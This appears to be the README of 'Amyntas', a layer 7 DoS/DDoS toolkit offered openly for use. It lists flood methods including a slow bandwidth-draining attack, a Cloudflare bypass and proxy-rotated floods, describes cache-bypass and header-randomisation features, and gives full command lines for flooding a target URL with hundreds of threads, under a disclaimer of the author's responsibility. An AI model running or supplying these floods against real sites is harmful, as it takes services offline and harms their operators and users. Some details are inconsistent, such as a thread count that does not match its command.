 ## NOTE!
Results may vary A LOT when attacking! <br>
It might peak at 40k rq/s and drop down to 2k rq/s or peak at 169 requests per second, just so you know! <bn>

--- 

### About
Amyntas is a layer 7 DoS/DDoS toolkit, with a variety of attack methods and the capability to bypass caching systems. <br>
Use at your own risk! I, the author, am not responsible for any harm you do! Keep that in mind!

<br>

Aviable methods
- `GET` (simple GET flood)
- `HEAD` (simple HEAD flood)
- `POST` (simple POST flood)
- `FAST` (a <strong>GET /</strong> flood)
- `GHP`/`GETHEADPOST` (a flood which randomly chooses GET, HEAD or POST as request method)
- `LEECH` (a low & slow HTTP GET flood which can drain A LOT of bandwith)
- `MIX` (a method which randomly chooses HTTP request methods)
- `BYPASS` (bypasses cloudflare)
- `PROXY` (attack which uses a proxy file to attack)

---

### Features
1. Proxy scraper
2. Cache bypassing mechanisms
3. Random headers (user agents, referers)
4. Real time "worker" system
5. Supports custom user-agent and referer
6. Proxy support (Rotating proxy support coming soon!)

---

### Known bugs/problems
1. None ATM :3

---

### To Do list
1. More methods
2. More documentation
3. Better exception handling
4. Maybe colors? lol

---

### Usage
All options:
```
-h, --help                             Show this help message and exit
-t TARGET, --target TARGET             Target URL (Example: https://google.com or http://pornhub.com)
-p PORT, --port PORT                   Target port (Leave empty to let the tool decide)
-d DURATION, --duration DURATION       Attack duration
--proxy-file FILE_PATH                 Path to proxies
--proxy PROXY                          Use a proxy when attacking (Example: 127.0.0.1:1337)
--proxy-type PROXY_TYPE                Set the proxy type (HTTP, SOCKS4 or SOCKS5)
--proxy-user PROXY_USER                Proxy username
--proxy-pass PROXY_PASS                Proxy password
--proxy-resolve                        Resolve host using proxy (needed for hidden service targets)
-rt, --rotate-proxies                  Wether we should rotate proxies (use with `--proxy-file`)
-ua USERAGENT, --user-agent USERAGENT  User agent to use when attacking, else its randomly chosen
-ref REFERER, --referer REFERER        Referer to use when attacking, else its randomly chosen
-w WORKERS, --workers WORKERS          Amount of workers/threads to use when attacking
-dbg, --debug                          Print info useful for debugging
-bc, --bypass-cache                    Try to bypass any caching systems to ensure we hit the main site
-m METHOD, --method METHOD             Method to use when attacking (default: GET)
-dfw, --detect-firewall                Detect if the target site is protected by a firewall
--http-version HTTP_VERSION            Set the HTTP protocol version (default: 1.1)
--scrape-proxies                       Wether to scrape a list of proxies first (set the type using `--proxy-type`)
```

Basic usage:
```
python3 amyntas.py -t https://target.com
```

GET flood, attacking with 100 threads for 1337 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -d 1337
```

POST flood, attacking with 700 threads for 40 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -m POST -d 40
```

Proxified GET flood using a file with SOCKS5 proxies, with 1337 threads for 40 seconds
```
python3 amyntas.py --proxy-file socks5.txt --proxy-type SOCKS5 -t https://target.com -w 1337 -d 40 -m PROXY
```

Raw GET flood, using HTTP protocol version 430 with 999 threads for 999 seconds
```
python3 amyntas.py --http-version 430 -m GET -w 999 -d 999 -t https://target.com:420
```

---

### Requirements

```
requests
argparse
colorama
netaddr
cloudscraper
selenium
undetected_chromedriver
ssl
```

---

### Images
<p>3.8k GET flood using 2300 threads</p>

![image](https://user-images.githubusercontent.com/78029616/164300794-c4b850ba-37d0-41e0-a62f-53f7578ff731.png)
